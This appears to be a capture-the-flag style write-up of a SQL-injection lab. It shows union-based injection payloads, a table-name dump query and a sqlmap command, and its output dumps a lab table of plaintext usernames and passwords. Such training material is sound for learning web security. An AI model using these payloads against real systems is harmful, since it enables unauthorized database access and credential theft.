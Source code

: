 # Challange (SQL-Injection)

By sending injection payload with the item name we get positive results.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/0484b247-3695-46bd-a03d-d577e3140c55)

On sending simple requests through Repeater we got the content length of 2516 with details of the product.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/2de90f1a-a100-4b32-9e81-7e5a028eb6af)

On trying the Union query with payload: `' union select 1,2,3,4#` in the encoded form we get positive feedback.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/89e4587c-4e0f-4017-a768-947d4a7a4a89)

On trying to extract the version info get the version in return.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/6f73d06f-1057-4fa5-83da-e353a97667c2)

Dump table names using the cmd:`'+union+select+1,2,3,table_name+from+information_schema.tables%23`

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/dedd7170-d45e-48c8-a09e-5e90bfa63828)

Give a try with a tool called sqlmap, by coping request data to a file.

```bash
└─$ sqlmap -r challange -dump -t injection0x03
        ___
       __H__                                                                                                                                                                                                      
 ___ ___[.]_____ ___ ___  {1.7.6#stable}                                                                                                                                                                          
|_ -| . [.]     | .'| . |                                                                                                                                                                                         
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:57:47 /2023-07-15/

[10:57:47] [INFO] parsing HTTP request from 'challange'
[10:57:47] [INFO] setting file for logging HTTP traffic
[10:57:47] [INFO] resuming back-end DBMS 'mysql' 
[10:57:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: product (POST)
-----------------snip-----------------
Database: peh-labs
Table: auth0x03
[15 entries]
+---------------+----------------------+---------------+
| username      | password             | lockout_count |
+---------------+----------------------+---------------+
| jessamy       | 1q2w3e4r5t6y7u8i9o0p | 0             |
| jeremy        | q1w2e3r4t5y6u7i8o9p0 | 0             |
| admin         | letmein              | 0             |
| root          | zmxncbvgftr          | 0             |
| alex          | alexwashere          | 0             |
| raj           | password123          | 0             |
| takeshi       | onigiriotebetai      | 0             |
| hiro          | roosterCarsSunset5   | 0             |
| heath         | thecybermentor       | 0             |
| user1         | user1                | 0             |
| teamaster     | idrinklotsoftea      | 0             |
| operator      | alskdjfhg            | 0             |
| bob           | 123456               | 0             |
| alice         | password             | 0             |
| administrator | cheese               | 0             |
+---------------+----------------------+---------------+
```

W00t Cracked...

